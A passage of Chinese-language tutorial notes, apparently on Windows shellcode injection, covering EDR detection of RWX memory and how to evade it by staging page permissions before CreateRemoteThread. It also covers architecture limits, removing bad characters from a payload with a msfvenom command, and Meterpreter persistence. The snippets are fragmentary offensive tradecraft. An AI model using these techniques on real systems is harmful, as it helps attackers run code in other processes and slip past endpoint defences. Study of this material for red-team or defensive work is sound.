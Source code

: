 **检测**:
```c
// EDR 可能立即检测
if (protection == PAGE_EXECUTE_READWRITE) {
    Alert("Suspicious RWX memory allocation!");
}
```

**缓解**:
```c
// 分阶段修改权限
VirtualAllocEx(..., PAGE_READWRITE);  // 先 RW
WriteProcessMemory(..., shellcode, ...);
VirtualProtectEx(..., PAGE_EXECUTE_READ);  // 再改为 RX
CreateRemoteThread(...);
```

### 2. 架构限制

与 DLL Injection 相同：
- 32位注入器 ❌ 64位进程
- 64位注入器 ❌ 32位进程

**解决方案**: 准备两个版本的注入器和 shellcode

### 3. Shellcode 兼容性

**问题**: Shellcode 可能包含坏字符

```c
// 某些注入场景不允许 null bytes
unsigned char shellcode[] = "\x00\x01\x02";  // ← 0x00 可能截断
```

**解决方案**:
```bash
# 编码避免坏字符
msfvenom -p windows/x64/exec CMD=calc.exe \
    -b '\x00\x0a\x0d' \  # 避免 null, LF, CR
    -f c
```

### 4. Shellcode 大小

**VirtualAllocEx 最小分配**: 通常 4KB（一页）

即使 shellcode 只有 100 bytes，也会分配 4096 bytes。

### 5. 长时间运行的 Shellcode

**Meterpreter 等持久化 shellcode**:
- 不会退出
- `WaitForSingleObject` 会超时
- 这是正常的！

```c
WaitForSingleObject(hThread, 10000);  // 10秒后超时
// 但 Meterpreter 仍在运行
```
